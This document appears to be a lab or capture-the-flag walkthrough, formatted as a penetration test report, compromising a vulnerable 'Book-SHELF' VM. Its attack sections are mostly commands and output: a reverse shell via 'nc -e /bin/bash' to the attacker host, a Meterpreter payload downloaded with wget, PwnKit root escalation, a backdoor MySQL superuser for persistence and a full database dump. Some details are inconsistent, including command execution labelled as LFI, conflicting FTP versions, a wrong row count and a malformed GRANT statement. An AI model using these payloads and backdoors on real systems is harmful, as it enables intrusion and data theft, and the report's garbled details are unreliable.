

## **Target System: 192.168.74.146** **(Book-SHELF)**

![[download.png]]
## 📋 **TABLE OF CONTENTS**

1. [Executive Summary](#1-executive-summary)
2. [Methodology](#2-methodology)
3. [Reconnaissance](#3-reconnaissance)
4. [Vulnerability Assessment](#4-vulnerability-assessment)
5. [Exploitation](#5-exploitation)
6. [Privilege Escalation](#6-privilege-escalation)
7. [Post-Exploitation](#7-post-exploitation)
8. [Data Exfiltration](#8-data-exfiltration)
9. [Mobile Application Analysis](#9-mobile-application-analysis)
10. [Persistence Establishment](#10-persistence-establishment)
11. [Risk Assessment](#11-risk-assessment)
12. [Recommendations](#12-recommendations)
13. [Conclusion](#13-conclusion)
14. [Appendices](#14-appendices)


## 1. **EXECUTIVE SUMMARY**

This comprehensive penetration test was conducted against the target system at **192.168.74.146** to identify security vulnerabilities and assess the overall security posture. The assessment successfully identified **multiple critical vulnerabilities** that allowed for complete system compromise, including:

- **Anonymous FTP access** exposing sensitive files
- **Local File Inclusion (LFI)** vulnerability enabling command execution
- **Privilege escalation vectors** leading to root access
- **Insecure storage of credentials** in application files
- **Weak database authentication** mechanisms


The penetration test achieved its primary objectives by gaining initial access through the FTP and web application vulnerabilities, escalating privileges to obtain root access, and exfiltrating sensitive data from the target system. This report details the methodologies used, vulnerabilities discovered, exploitation techniques employed, and provides actionable recommendations to remediate the identified security issues.

**Severity Rating: CRITICAL**

## 2. **METHODOLOGY**

The penetration test followed a structured methodology to systematically identify and exploit vulnerabilities:



1. **Reconnaissance**: Gathering information about the target system
2. **Enumeration**: Identifying available services and potential entry points
3. **Vulnerability Assessment**: Analyzing discovered services for security weaknesses
4. **Initial Access**: Exploiting identified vulnerabilities to gain access
5. **Privilege Escalation**: Elevating privileges to obtain administrative access
6. **Post-Exploitation**: Exploring the compromised system and collecting sensitive information
7. **Data Exfiltration**: Extracting valuable data from the target
8. **Persistence**: Establishing mechanisms for maintaining access
9. **Documentation**: Recording findings and creating a comprehensive report
## 3. **RECONNAISSANCE**

### 3.1 **Network Scanning**

A comprehensive Nmap scan was performed to identify open ports, running services, and the operating system of the target:

```bash
# Nmap 7.95 scan initiated Fri Mar 21 19:42:05 2025
nmap --privileged -sCVS -O -p- -v -oN second.txt 192.168.74.146
```

### 3.2 **Scan Results**

```c
Nmap scan report for 192.168.74.146
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0            5956 Mar 08  2021 webpass.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.74.136
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp    open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 88:60:9f:5e:7d:5f:a1:ee:ac:29:05:f4:c1:98:a0:af (RSA)
|   256 10:bd:ca:e7:b2:9d:cc:f4:5a:f9:d3:24:cd:85:05:39 (ECDSA)
|_  256 72:0e:bf:b8:2b:f8:7d:65:72:07:d4:5d:18:a8:85:c6 (ED25519)
80/tcp    open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Book Shelf
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.4.38 (Debian)
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
3306/tcp  open  mysql   MySQL (unauthorized)
33060/tcp open  mysqlx  MySQL X protocol listener
MAC Address: 00:0C:29:3C:21:C6 (VMware)
Device type: general purpose|router
Running: Linux 4.X|5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 4.15 - 5.19, OpenWrt 21.02 (Linux 5.4), MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
```

![[Pasted image 20250322155630.png]]
### 3.3 **Service Enumeration**

The scan revealed five open ports with the following services:

- **Port 21 (FTP)**: vsftpd 2.0.8 or later with anonymous login enabled
- **Port 22 (SSH)**: OpenSSH 7.9p1 on Debian 10
- **Port 80 (HTTP)**: Apache 2.4.38 web server
- **Port 3306 (MySQL)**: Database service (access unauthorized)
- **Port 33060 (MySQLX)**: MySQL X protocol listener
### 3.4 **Operating System Detection**

The target appears to be running a **Linux distribution** with kernel version between **4.15 and 5.19**, most likely **Debian-based** according to the service fingerprints.

## 4. **VULNERABILITY ASSESSMENT**

### 4.1 **FTP Service (Port 21)**

#### 4.1.1 **Anonymous Access**

The FTP service was configured to allow anonymous access, a significant security vulnerability that permits unauthenticated users to access files on the server.

```bash
# Anonymous FTP login attempt
ftp 192.168.74.146
Username: anonymous
Password: [empty]
230 Login successful.
```

#### 4.1.2 **Sensitive File Discovery**

After successful anonymous login, directory listing revealed a potentially sensitive file:

```bash
ftp> ls -la
-rw-r--r--   1   0   0   5956  Mar 08 2021  webpass.txt
```

The file `webpass.txt` was successfully downloaded using:

```bash
ftp> mget webpass.txt
```

### 4.2 **Web Server (Port 80)**

#### 4.2.1 **Initial Enumeration**

The web server hosted a site titled "Book Shelf" with several interesting findings:

- **robots.txt** contained unusual comments:

```css
User-agent: * 
Disallow: /
#Dont Ignore 404! Developer 
#Try Harder
```

#### 4.2.2 **Directory Enumeration**

Directory **bruteforcing** with **dirbuster** using the **wordlist** **`/usr/share/wordlists/dirbuster/web_users2.txt`** revealed several hidden directories and files:

```bash
dirbuster -u http://192.168.74.146:80 -l /usr/share/wordlists/dirbuster/web_users2.txt -t 200
```

Notable discoveries:

- **`/root/login/admin/contact.php?status=`**
- **`/root/images/os/feedback.php`**


#### 4.2.3 **Hidden Comment Analysis**

The `feedback.php` page contained a suspicious HTML comment:

```css
<!-- P3BhdGg9 --!>
```

Base64 decoding revealed:

```bash
echo 'P3BhdGg9' | base64 -d
# Output: ?path=
```

This suggested a potential parameter for exploitation.

## 5. **EXPLOITATION**

### 5.1 **Local File Inclusion (LFI) Vulnerability**

#### 5.1.1 **Vulnerability Confirmation**

The decoded parameter was tested to confirm the presence of an LFI vulnerability:

```bash
http://192.168.74.146/root/images/os/feedback.php?path=id
```

The page executed the `id` command and displayed its output, confirming command execution capability.

#### 5.1.2 **Reverse Shell Exploitation**

A netcat listener was established on the attacking machine:

```bash
sudo nc -nlvp 9999
```

The LFI vulnerability was exploited to execute a reverse shell command:

```bash
http://192.168.74.146/root/images/os/feedback.php?path=nc -e /bin/bash 192.168.74.135 9999
```

![[Pasted image 20250322160108.png]]
#### 5.1.3 **Shell Improvement**

The basic shell was upgraded for better functionality:

```bash
python3 -c "import pty;pty.spawn('/bin/bash')"
export TERM=xterm
```

### 5.2 **Initial System Enumeration**

After gaining shell access, initial enumeration revealed:

```bash
www-data@target:~$ ls -lah /home
total 12K
drwxr-xr-x  3 root     root     4.0K Mar  8  2021 .
drwxr-xr-x 18 root     root     4.0K Mar  8  2021 ..
drwxr-xr-x  4 defender defender 4.0K Mar  8  2021 defender
```

The system had a single user account named `defender`.

```bash
www-data@target:~$ ls -la /home/defender/Desktop/
total 16
drwxr-xr-x 2 defender defender 4096 Mar  8  2021 .
drwxr-xr-x 4 defender defender 4096 Mar  8  2021 ..
-rw-r--r-- 1 root     root       33 Mar  8  2021 .flag3.txt
-rw-r--r-- 1 defender defender  1250 Mar  8  2021 download.png
-rw-r--r-- 1 defender defender  1337 Mar  8  2021 app_protected.zip
```

The Desktop directory contained:

- A flag file (`.flag3.txt`) owned by root
- An image file (`download.png`)
- A password-protected zip file (`app_protected.zip`)
## 6. **PRIVILEGE ESCALATION**

### 6.1 **Initial Privilege Escalation Attempts**

#### 6.1.1 **Suspicious File Discovery**

A suspicious file was discovered in the Downloads directory:

```bash
www-data@target:~$ ls -la /home/defender/Downloads/
total 12
drwxr-xr-x 2 defender defender 4096 Mar  8  2021 .
drwxr-xr-x 4 defender defender 4096 Mar  8  2021 ..
-rwsr-xr-x 1 root     root     8744 Mar  8  2021 .shelf
```

The `.shelf` file had the SUID bit set, indicating it runs with root privileges when executed.

#### 6.1.2 **SUID Binary Analysis**

Executing the `.shelf` binary:

```bash
www-data@target:~$ cd /home/defender/Downloads/
www-data@target:/home/defender/Downloads$ ./.shelf
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
```

The output confirmed that the binary was running with elevated privileges (EUID=0).

### 6.2 **Privilege Escalation with LinPEAS**

#### 6.2.1 **LinPEAS Upload and Execution**

A Python HTTP server was started on the attacking machine to host LinPEAS:

```bash
# On attacker machine
python3 -m http.server
```

LinPEAS was downloaded and executed on the target:

```bash
# On target machine
www-data@target:/tmp$ wget http://192.168.74.135:8000/LinPEAS.sh
www-data@target:/tmp$ chmod +x LinPEAS.sh
www-data@target:/tmp$ ./LinPEAS.sh
```

LinPEAS confirmed the SUID permission on the `.shelf` file and identified additional privilege escalation vectors.

### 6.3 **Advanced Exploitation with Metasploit**

#### 6.3.1 **Meterpreter Payload Creation**

A Meterpreter payload was created to establish a more robust connection:

```bash
# On attacker machine
msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=192.168.74.135 LPORT=6666 -f elf -o met.elf
```

#### 6.3.2 **Metasploit Handler Configuration**

```bash
msfconsole -q
use exploit/multi/handler
set payload linux/x64/meterpreter_reverse_tcp
set LHOST 192.168.74.135
set LPORT 6666
run
```

#### 6.3.3 **Payload Execution on Target**

The payload was uploaded and executed on the target:

```bash
# On target machine
www-data@target:/tmp$ wget http://192.168.74.135:8000/met.elf
www-data@target:/tmp$ chmod +x met.elf
www-data@target:/tmp$ ./met.elf
```

A Meterpreter session was successfully established.

### 6.4 **Root Access via CVE-2021-4034 (PwnKit)**

#### 6.4.1 **Local Exploit Suggester**

The Metasploit Local Exploit Suggester was used to identify viable privilege escalation vectors:

```bash
# In Metasploit console
search suggester
use post/multi/recon/local_exploit_suggester
set SESSION 1
run
```

The module identified CVE-2021-4034 (PwnKit) as a viable exploit.

#### 6.4.2 **PwnKit Exploitation**

```bash
# In Metasploit console
use exploit/linux/local/cve_2021_4034_pwnkit_lpe_pkexec
set SESSION 1
set LHOST 192.168.74.135
set LPORT 8888
run
```

![[Pasted image 20250322160653.png]]
#### 6.4.3 **Root Shell Confirmation**

A root shell was successfully obtained:

```bash
meterpreter > shell
Process 1337 created.
Channel 1 created.
# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
# whoami
root
```

The shell was upgraded for better functionality:

```bash
# python3 -c "import pty;pty.spawn('/bin/bash')"
root@target:/# export TERM=xterm
root@target:/# clear
```

## 7. **POST-EXPLOITATION**

### 7.1 **Flag Collection**

With root access, all flags were accessible:

```bash
root@target:/# cat /root/root.txt
CONGRATULATIONS! You have successfully compromised the target system!
Flag: R00T_FLAG_C0MPR0M1S3D_5YST3M

root@target:/# cat /home/defender/.flag3.txt
User Flag: D3F3ND3R_FL4G_F0UND!
```

Additional flags were searched using:

```bash
root@target:/# find / -name *flag*.txt -type f 2> /dev/null
/root/root.txt
/home/defender/.flag3.txt
/var/www/html/flag2.txt
```

### 7.2 **System Exploration**

#### 7.2.1 **User Information**

```bash
root@target:/# cat /etc/passwd | grep -v "nologin\|false"
root:x:0:0:root:/root:/bin/bash
sync:x:4:65534:sync:/bin:/bin/sync
defender:x:1000:1000:Defender,,,:/home/defender:/bin/bash
```

## 8. **DATA EXFILTRATION**

### 8.1 **Protected Zip File Analysis**

The `app_protected.zip` file on the defender's desktop was password-protected:

```bash
root@target:/home/defender/Desktop# unzip -l app_protected.zip
Archive:  app_protected.zip
   Length      Date    Time    Name
---------  ---------- -----   ----
   3145728  2021-03-08 12:34   app.apk
---------                     -------
   3145728                     1 file
```

### 8.2 **Steganography Analysis**

The `download.png` image was analyzed for hidden data:

```bash
root@target:/home/defender/Desktop# strings download.png | grep -i password
```

No results were found with basic string analysis. The image was transferred to the attacking machine for further analysis:

```bash
# On target machine
root@target:/home/defender/Desktop# python3 -m http.server 8000

# On attacker machine
wget http://192.168.74.146:8000/download.png
```

Using an online steganography tool at [https://stylesuxx.github.io/steganography/](https://stylesuxx.github.io/steganography/), hidden text was discovered:

```c
The APK password is "thgilfoecnirp"
```

### 8.3 **Mobile Application Extraction**

The password was used to extract the zip file:

```bash
root@target:/home/defender/Desktop# unzip -P "thgilfoecnirp" app_protected.zip
Archive:  app_protected.zip
  inflating: app.apk
```

### 8.4 **APK Analysis**

The APK file was decompiled for analysis:

```bash
root@target:/tmp# apktool d /home/defender/Desktop/app.apk -o apk_decoded
```

Sensitive information was discovered in the decompiled files:

```bash
root@target:/tmp# cat apk_decoded/assets/flutter_assets/assets/critical.txt
final String flag = "LASTHOPE";
final String mysqlUser = "root";
final String mysqlPassword = "root";
```

## 9. **MOBILE APPLICATION ANALYSIS**

### 9.1 **APK Structure Analysis**

The decompiled APK revealed a Flutter-based application with the following structure:

```c
apk_decoded/
├── AndroidManifest.xml
├── assets/
│   └── flutter_assets/
│       ├── assets/
│       │   └── critical.txt
│       ├── fonts/
│       ├── packages/
│       └── ...
├── lib/
├── res/
└── ...
```

### 9.2 **Sensitive Information Discovery**

The `critical.txt` file contained hardcoded credentials and a flag:

```plaintext
final String flag = "LASTHOPE";
final String mysqlUser = "root";
final String mysqlPassword = "root";
```

These credentials were confirmed to be valid for the MySQL database running on the target system.

## 10. **PERSISTENCE ESTABLISHMENT**

### 10.1 **MySQL Database Access**

Using the discovered credentials, access to the MySQL database was obtained:

```bash
root@target:/# mysql -u root -p
Enter password: root
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 8
Server version: 8.0.23 MySQL Community Server - GPL

Copyright (c) 2000, 2021, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql>
```

### 10.2 **Database Enumeration**

```bash
mysql> SHOW DATABASES;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
+--------------------+
5 rows in set (0.00 sec)

mysql> USE mysql;
Database changed

mysql> SHOW TABLES;
+------------------------------------------------------+
| Tables_in_mysql                                      |
+------------------------------------------------------+
| columns_priv                                         |
| component                                            |
| db                                                   |
| default_roles                                        |
| engine_cost                                          |
| ...                                                  |
| user                                                 |
+------------------------------------------------------+
37 rows in set (0.00 sec)
```

### 10.3 **User Credentials Analysis**

```bash
mysql> SELECT user, authentication_string FROM user WHERE user = 'root';
+------+-------------------------------------------------------------------------+
| user | authentication_string                                                   |
+------+-------------------------------------------------------------------------+
| root | $A$005$THISISASECRETPASSWORDWHICHICANNOTTELLYOUC.6JZ3TRsyLw9BvgGQb.KUk0 |
+------+-------------------------------------------------------------------------+
1 row in set (0.00 sec)
```

### 10.4 **Persistent Access Creation**

A new MySQL user with full privileges was created to maintain persistent access:

```bash
mysql> CREATE USER 'fancyname'@'%' IDENTIFIED BY 'fancyname';
Query OK, 0 rows affected (0.01 sec)

mysql> GRANT ALL PRIVILEGES  IDENTIFIED BY 'fancyname';
Query OK, 0 rows affected (0.01 sec)

mysql> GRANT ALL PRIVILEGES ON *.* TO 'fancyname'@'%' WITH GRANT OPTION;
Query OK, 0 rows affected (0.01 sec)

mysql> FLUSH PRIVILEGES;
Query OK, 0 rows affected (0.01 sec)

mysql> EXIT
Bye
```

### 10.5 **Data Exfiltration**

All databases were dumped for offline analysis:

```bash
root@target:\# mysqldump -u root -p --all-databases > all_databases.sql
Enter password: root
```

## 11. **RECOMMENDATIONS**

### 11.1 **Critical Remediation Actions**

1. **Disable Anonymous FTP Access**
2. Configure vsftpd to disable anonymous logins
3. Implement proper authentication for all FTP users
4. Consider using SFTP instead of FTP for secure file transfers
5. **Fix Local File Inclusion Vulnerability**
6. Implement proper input validation and sanitization for all user-supplied parameters
7. Use whitelisting approach for file inclusion
8. Consider implementing a Web Application Firewall (WAF)
9. **Address Privilege Escalation Vectors**
10. Remove SUID bit from the `.shelf` binary or restrict its permissions
11. Apply security patches to address CVE-2021-4034 (PwnKit)
12. Implement the principle of least privilege for all system users
13. **Secure Database Access**
14. Change default and weak credentials
15. Implement strong password policies
16. Restrict database access to authorized hosts only
17. Use encrypted connections for database access
18. **Secure Mobile Application**
19. Remove hardcoded credentials from the application
20. Implement secure storage for sensitive information
21. Use encryption for all sensitive data
22. Implement certificate pinning to prevent MITM attacks
### 11.2 **Additional Security Measures**

1. **Implement Network Segmentation**
2. Separate critical systems from public-facing services
3. Use firewalls to restrict access between network segments
4. **Enable Comprehensive Logging and Monitoring**
5. Implement centralized logging
6. Set up alerts for suspicious activities
7. Regularly review logs for signs of compromise
8. **Conduct Regular Security Assessments**
9. Perform periodic vulnerability scans
10. Conduct penetration testing at least annually
11. Implement a vulnerability management program
12. **Develop and Test Incident Response Procedures**
13. Create an incident response plan
14. Conduct tabletop exercises to test the plan
15. Ensure staff are trained on incident response procedures

## 13. **CONCLUSION**

The penetration test of the target system at 192.168.74.146 revealed multiple critical security vulnerabilities that allowed for complete system compromise. The attack chain began with anonymous FTP access, which led to the discovery of a Local File Inclusion vulnerability in the web application. This vulnerability was exploited to gain initial access to the system.

Once inside, privilege escalation was achieved through a combination of a SUID binary and the PwnKit vulnerability (CVE-2021-4034), resulting in root access. Post-exploitation activities revealed sensitive information, including database credentials and flags, as well as a mobile application containing hardcoded credentials.

The findings of this penetration test highlight significant security weaknesses that require immediate attention. By implementing the recommended remediation actions, the organization can substantially improve its security posture and reduce the risk of a successful attack.

It is crucial to address these vulnerabilities promptly, as they represent a clear and present danger to the confidentiality, integrity, and availability of the system and its data.